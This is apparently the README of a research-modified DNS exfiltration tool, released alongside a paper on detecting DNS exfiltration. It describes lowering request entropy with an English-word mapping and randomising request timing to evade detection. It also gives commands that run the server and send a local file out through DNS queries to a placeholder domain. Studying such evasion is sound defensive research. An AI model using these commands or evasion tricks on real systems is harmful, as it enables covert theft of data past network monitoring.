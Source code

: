 If you use this software for your research, please cite: Žiža, K., Tadić, P. & Vuletić, P. DNS exfiltration detection in the presence of adversarial attacks and modified exfiltrator behaviour. Int. J. Inf. Secur. (2023). https://doi.org/10.1007/s10207-023-00723-w

# Modified DNSExfiltration tool

The original tool can be found here: https://github.com/Arno0x/DNSExfiltrator.<br>
In order to make the detection of exfiltrations harder the tool was modified in the following way:
- Entropy of the requests was decreased by using a mapping we introduced (Base32map) which maps each Base32 character to 3 characters long English word. English words were chosen in such a way which gives the same distribution of characters as in regular DNS requests. The following chart shows the entropy values for different sizes of DNS requests and Base32, Base64 and our Base32map encoding.


![Capture](https://user-images.githubusercontent.com/7517033/164089826-fee9fb0e-8d1b-40f0-ae67-fc45295659c6.PNG)

- Times between requests were randomised in order to make the statistical analysis of times harder for detection tools.

## Usage

Detailed description and the instructions for using the tool can be found in its original repository.
Commands needed for testing the tool are the following:

Run the server:
`dnsexfiltrator.py -d mydomain.com -p password`

Build client for Windows:
`.\csc.exe /t:exe /out:dns.exe .\dnsExfiltrator.cs /reference:System.IO.Compression.dll`

Run client:
`.\dns.exe .\transfer.txt mydomain.com password s=192.168.192.130 -b32 r=64 l=30`

Possible arguments for running the client:
- `s = ip` - DNS server identification (IP address)
- `t = n` - throttle time in ms (fixed part)
- `tr = n` - throttle time in ms (maximum value for random part)
- `r = n` - maximum size of the request (number of characters)
- `l = n` - maximum size of the label (number of characters)
- `-b32` - inicator to use base32
- `-map` - can be used only together with `-b32` - tells the tool to use the mapping in order to reduce entropy
